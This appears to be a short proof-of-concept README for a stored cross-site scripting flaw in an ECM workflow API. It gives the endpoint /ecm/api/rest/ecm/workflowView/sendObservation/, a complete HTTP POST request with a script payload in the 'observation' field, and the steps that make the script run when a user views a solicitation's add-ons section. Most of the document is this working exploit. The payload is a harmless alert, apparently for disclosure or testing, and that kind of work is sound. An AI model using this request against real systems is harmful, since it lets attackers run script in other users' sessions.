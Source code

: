 # xss-s-2

Send a POST to `/ecm/api/rest/ecm/workflowView/sendObservation/` with payload, change `PROCESS_ID` at `processInstanceId` with ID of your document and put the payload at observation parameter. To run the stored xss simply navigate to any add-ons section of any solicitation and it will be triggered. 

```
POST /ecm/api/rest/ecm/workflowView/sendObservation/ HTTP/2
Host: host.com
Cookie: JSESSIONID=session; JSESSIONIDSSO=sessionSSO
Content-Type: application/json
Content-Length: 152

{"processInstanceId":PROCESS_ID,"stateSequence":9,"movementSequence":2,"observation":"<p><script>alert(document.domain)</script></p>\n","managerMode":false}
```
